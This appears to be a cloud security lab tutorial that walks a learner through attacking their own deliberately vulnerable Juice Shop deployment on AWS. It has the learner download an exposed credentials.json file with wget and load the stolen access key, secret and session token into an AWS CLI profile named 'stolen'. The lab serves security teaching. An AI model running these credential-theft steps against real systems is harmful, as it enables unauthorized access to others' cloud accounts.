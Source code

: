 
<br/>

- Now we will run a command to set an environment variable. Make sure to replace `[JuiceShopURL]` with the `JUICESHOPURL` URL from your CloudFormation stack. Here is the code: `export JUICESHOPURL="[JuiceShopURL]"`. So for me `export JUICESHOPURL="https://d2u65zkfoc22qv.cloudfront.net/"`. This makes it so that CloudShell will now remember the whole URL as `JUICESHOPURL` instead of us having to type the whole URL out. When you pasted the command, press "**Enter**" on your keyboard.
- ![image](https://github.com/user-attachments/assets/47a16d5d-bb61-45f6-82e8-256a657c915f)
- Next we are going to store another variable. We'll set the `JUICESHOPS3BUCKET` environment variable. Make sure to replace `[TheSecureBucket]` with the `TheSecureBucket` **value** from your CloudFormation **Outputs** section (same place where you have your `JuiceShopURL`.
- ![image](https://github.com/user-attachments/assets/cc33a3e2-94a2-40de-bf8b-4c3a0bb3b183)
- Here is the code: `export JUICESHOPS3BUCKET="[TheSecureBucket]"`. Paste it into CloudShell and press "**Enter**".
- ![image](https://github.com/user-attachments/assets/1ac19062-b3fb-4b7e-b5a8-03de08275071)
- The next command we will run will download and display the credentials. Run the following command to download your stolen credentials: `wget $JUICESHOPURL/assets/public/credentials.json`
- ![image](https://github.com/user-attachments/assets/75012db6-e060-474d-a65d-b9a0737ba67f)

<br/>

> 💡 **What does this code do?**
> 
> - `wget` is a command-line tool used to download files from the internet.
> 
> - In this case, we're using it to download the **credentials.json** file from our web app and into the CloudShell environment. This means there's now a local file in CloudShell that contains the stolen credentials!
> 
> - Notice how we're using `$JUICESHOPURL` in the command. That's our environment variable at work - it's automatically pulling the JUICESHOPURL you've saved previously, and using it in the command so you don't have to type it out yourself.

<br/>

- We'll now display the credentials with `cat credentials.json | jq`. `cat` shows the file, `jq` formats it nicely. `|` combines `cat` and `jq`.
- ![image](https://github.com/user-attachments/assets/7c9ff655-94a2-43b0-8bbb-99a666e642a6)
- Our next set of commands will be used to configure an AWS CLI profile named **stolen** using the downloaded credentials:

<br/>

```bash
aws configure set profile.stolen.region us-east-1
aws configure set profile.stolen.aws_access_key_id `cat credentials.json | jq -r '.AccessKeyId'`
aws configure set profile.stolen.aws_secret_access_key `cat credentials.json | jq -r '.SecretAccessKey'`
aws configure set profile.stolen.aws_session_token `cat credentials.json | jq -r '.Token'`
```

<br/>

- ![image](https://github.com/user-attachments/assets/ee595b03-851b-46ce-b88b-139db6c02942)
